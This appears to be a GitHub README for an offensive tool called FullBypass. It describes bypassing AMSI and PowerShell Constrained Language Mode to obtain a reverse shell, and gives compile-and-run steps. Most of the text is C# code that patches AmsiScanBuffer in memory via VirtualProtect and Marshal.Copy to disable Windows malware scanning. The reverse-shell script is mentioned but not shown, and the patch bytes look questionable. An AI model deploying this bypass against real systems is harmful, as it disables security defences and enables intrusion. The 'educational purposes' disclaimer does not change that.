 # FullBypass

## Disclaimer
This tool is intended for educational purposes only. Unauthorised use of this tool is prohibited. Use responsibly and ensure you have proper authorisation before testing any security measures.

## Overview
This repository contains a tool that demonstrates how to bypass AMSI (AntiMalware Scan Interface) and PowerShell Constrained Language Mode (CLM) to achieve a FullLanguage PowerShell reverse shell.

## Usage
1. Compile the C# code using `msbuild` https://learn.microsoft.com/en-us/visualstudio/msbuild/walkthrough-using-msbuild?view=vs-2022.
2. Execute the compiled binary to disable AMSI.
3. Run the PowerShell script to establish a reverse shell.

## Basic C# Bypass Attempt
```csharp
using System;
using System.Runtime.InteropServices;

public class AMSIBypass
{
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

    public static void Bypass()
    {
        var hModule = LoadLibrary("amsi.dll");
        var addr = GetProcAddress(hModule, "AmsiScanBuffer");
        VirtualProtect(addr, (UIntPtr)5, 0x40, out var oldProtect);
        Marshal.Copy(new byte[] { 0x31, 0xFF, 0x90 }, 0, addr, 3);
        VirtualProtect(addr, (UIntPtr)5, oldProtect, out _);
    }

    public static void Main(string[] args)
    {
        Bypass();
        Console.WriteLine("AMSI Bypass Applied");
    }
}
